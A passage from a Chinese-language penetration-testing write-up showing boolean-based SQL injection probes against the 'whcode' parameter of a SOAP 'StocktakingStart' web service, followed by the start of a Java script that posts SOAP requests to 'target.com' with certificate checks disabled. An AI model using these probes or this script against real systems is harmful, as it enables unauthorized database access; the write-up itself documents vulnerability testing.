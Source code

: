   * 验证：-1' OR 1=1 ==> true 返回值为0

![]()

  

  * 验证：-1' OR 3+220-220-1=0+0+0+1 ==> false 返回值为-1

![]()

  

  * 验证：-1' OR 3*2=6 AND 000220=000220 ==> true 返回值为0

![]()

所以在参数whcode处一定存在SQL注入漏洞

  

判断完后就开始对其进行SQL注入：

![]()

发现竟然报错了，一开始笔者以为是语句构造错了，又换了几种语句无果后，想看看调用接口的回显是什么，问题出在哪里，所以就写了个脚本帮助判断

    
    
    import java.io.BufferedReader;  
    import java.io.InputStreamReader;  
    import java.io.OutputStreamWriter;  
    import java.net.HttpURLConnection;  
    import java.net.URL;  
      
    public class asmx {  
        public static void main(String[] args) throws Exception {  
            // 设置请求参数  
            String url = "https://target.com/";  
            String soapAction = "http://tempuri.org/StocktakingStart";  
            String payload = "<?xml version=\"1.0\"?><soap12:Envelope xmlns:soap12=\"http://www.w3.org/2003/05/soap-envelope\" xmlns:tns=\"http://tempuri.org/\"><soap12:Header /><soap12:Body><tns:StocktakingStart><tns:user>tsSLAueP</tns:user><tns:whcode>1</tns:whcode><tns:PDtype>1</tns:PDtype><tns:UNITCODE>94102</tns:UNITCODE><tns:BRANDCODE>94102</tns:BRANDCODE></tns:StocktakingStart></soap12:Body></soap12:Envelope>";  
      
            // 创建连接  
            URL requestUrl = new URL(url);  
            HttpURLConnection connection = (HttpURLConnection) requestUrl.openConnection();  
      
            // 忽略SSL证书验证  
            javax.net.ssl.HttpsURLConnection.setDefaultHostnameVerifier(  
                    (hostname, sslSession) -> true);  
            trustAllHttpsCertificates();  
      
            // 设置请求方法和头部  
            connection.setRequestMethod("POST");  
            connection.setRequestProperty("SOAPAction", soapAction);  
            connection.setRequestProperty("Content-Type", "text/xml;charset=UTF-8");  
            connection.setDoOutput(true);  
      